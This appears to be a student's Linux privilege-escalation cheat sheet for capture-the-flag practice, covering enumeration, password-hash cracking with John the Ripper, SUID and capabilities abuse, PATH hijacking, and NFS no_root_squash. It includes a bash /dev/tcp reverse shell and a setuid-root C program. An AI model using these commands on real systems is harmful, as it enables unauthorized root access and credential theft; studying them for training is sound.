

# Linux
## Enumeration

**`hostname`** - name of the device, can be usefull  
**`uname -a`** - information about kernel system, search in exploit DB  
**`cat /proc/version`** - information about compilers (c++), kernel version  
**`ps`** - idk  
**`id`** - users privilege level 
**`sudo -l`** - what commands can user run with root privileges  
**`env`** - enviromental variables 
**`cat /etc/passwd`** - discoved users on the system  
**`cat /etc/shadow`** - hashes of passwords  
**`cat /etc/issue`** - what linux is running  
**`history`** - can show passwords and usernames or any info    

### find commands
`find . -name flag1.txt 2>/dev/null` find the file named “flag1.txt” in the current directory  
`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory  
`find / -type d -name config` find the directory named config under “/”  
`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executablebyall users)  
`find / -perm a=x` find executable files  
`find /home -user frank` find all files for user “frank” under “/home”  
`find / -mtime 10` find files that were modified in the last 10 days  
`find / -atime 10` find files that were accessed in the last 10 day  
`find / -cmin -60` find files changed within the last hour (60 minutes)  
`find / -amin -60` find files accesses within the last hour (60 minutes)  
`find / -size 50M` find files with a 50 MB size  

## Kernel exploit

Check the kernel information and try to find existing exploits, be sure you understande them. [ExploitDB](https://www.exploit-db.com/)

## Sudo

Run `sudo -l` command. Than look at [GTFOBins](https://gtfobins.github.io/) and search for bypass ways.

## SUID
Commands with permmisions of the file owner  

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.  
Again you can compare compare executables on [GTFOBins+suid](https://gtfobins.github.io/#+suid).

It can be usefull to crack passwords using /etc/shadow and /etc/passwd files and then johnTheRipper   
<pre>unshadow passwd.txt shadow.txt > passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt passwords.txt
</pre>

## Capabilities

We can use the `getcap -r / 2>/dev/null` tool to list enabled capabilities.  
Search on [GTFOBins+capabilities](https://gtfobins.github.io/#+capabilities)  

## Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

easy rev shell 
<pre>#!/bin/bash 

bash -i >& /dev/tcp/IP/PORT 0>&1</pre>

## PATH

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

search for writable files  
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` 

exporting path 
`export PATH=/newPath:$PATH`

easy shell 
<pre>echo "/bin/bash" > file

chmod 777 file </pre>

## NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

`cat /etc/exports`

The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

### On atacker's machine

Start bash with sudo privilages 
`sudo su`

We can start enumerating mountable shares  
`showmount -e <ip>`

Make dir in /tmp and mount it
<pre>mkdir /tmp/attack

mount -o rw IP:/path /tmp/attack </pre>

nfs.c script for bash
<pre>
int main(){
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
</pre>

compile it and give it root bit flag
<pre>
gcc nfs.c -o nfs -w

chmod +s nfs
</pre>

Then you can run it on victim's machine